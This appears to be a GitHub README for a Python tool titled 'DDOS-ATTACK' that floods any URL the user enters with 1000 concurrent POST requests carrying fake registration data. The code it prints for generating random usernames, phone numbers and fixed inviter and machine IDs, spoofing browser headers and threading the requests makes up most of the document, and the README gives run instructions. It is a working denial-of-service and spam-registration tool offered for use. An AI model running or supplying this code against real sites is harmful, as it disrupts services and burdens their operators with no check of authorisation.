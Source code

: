 # DDOS-ATTACK



This Python script simulates sending multiple POST requests to a target URL with randomly generated payload data. It uses multithreading to send a large number of requests simultaneously.

## Features

- **Random Data Generation**: Generates random usernames and mobile numbers for each request.
- **Multithreading**: Handles concurrent requests using Python's `ThreadPoolExecutor` for efficiency.
- **Data Encoding**: Payload data is both URL-encoded and Base64-encoded before being sent.
- **Custom HTTP Headers**: Each request is sent with specific headers mimicking a real browser request.
- **Progress Tracking**: Displays the number of successful requests in real-time.

## Prerequisites

You need to have Python 3.x installed along with the `requests` library. Install the dependencies using:

```bash
pip install requests
```

## How It Works
Random Username and Mobile Generation: The script generates random usernames (e.g., scamXXXX) and mobile numbers (starting with 98) using the random module.

```bash
def generate_random_username():
    return f"scam{random.randint(1000, 9999)}"

def generate_random_mobile():
    return f"98{random.randint(10000000, 99999999)}"
```
## Payload Creation: 
The generated data is packed into a dictionary and converted to a JSON string. It is then URL-encoded and Base64-encoded for secure transmission.

```bash
def create_payload():
    payload = {
        "username": generate_random_username(),
        "mobile": generate_random_mobile(),
        "password": "scam",
        "inviter": "114563",
        "machine": "17204265160908750676"
    }
    return payload
```
## Request Sending: 
Each request is sent with custom headers and the encoded payload. If the request is successful (HTTP 200), the counter of successful requests is incremented.

```bash
def send_request(session, url):
    global successful_requests
    headers = {
        'accept': '*/*',
        'content-type': 'application/x-www-form-urlencoded;charset=UTF-8',
        'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64)',
    }
    payload = create_payload()
    encoded_data = encode_payload(payload)
    data = {'data': encoded_data}
    
    response = session.post(url, headers=headers, data=data)
    if response.status_code == 200:
        with threading.Lock():
            successful_requests += 1
            print(f"Request sent successfully {successful_requests}")
    else:
        print(f"Request failed. Response: {response.status_code}")
```
## Multithreading: 
The script uses ThreadPoolExecutor to send multiple requests concurrently.


```bash
def threads(num_threads, url):
    with ThreadPoolExecutor(max_workers=num_threads) as executor:
        with requests.Session() as session:
            futures = [executor.submit(send_request, session, url) for _ in range(num_threads)]
            for future in futures:
                future.result()

```
Running the Script
Clone or download the project.

## Install dependencies:

```bash

pip install requests
```
Run the script:

```bash

python app.py
```
Enter the target URL when prompted. The script will automatically send 1000 requests concurrently to the URL.

## Example
```bash

Enter the desired URL: https://example.com/api/submit
Request sent successfully 1
Request sent successfully 2
Request sent successfully 3
...

